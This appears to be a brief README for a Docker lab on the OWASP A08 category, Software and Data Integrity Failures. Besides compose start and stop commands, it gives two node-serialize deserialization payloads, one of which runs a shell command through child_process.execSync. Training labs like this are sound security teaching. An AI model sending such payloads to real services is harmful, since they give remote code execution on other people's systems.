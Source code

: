# A08-Software and Data Integrity Failures

```
docker compose up -d --build
```

```
docker compose down -v
```

```
_$$ND_FUNC$$_function (){ return 'hi'; }()
```

```
_$$ND_FUNC$$_function (){ return require('child_process').execSync('ls').toString(); }()
```
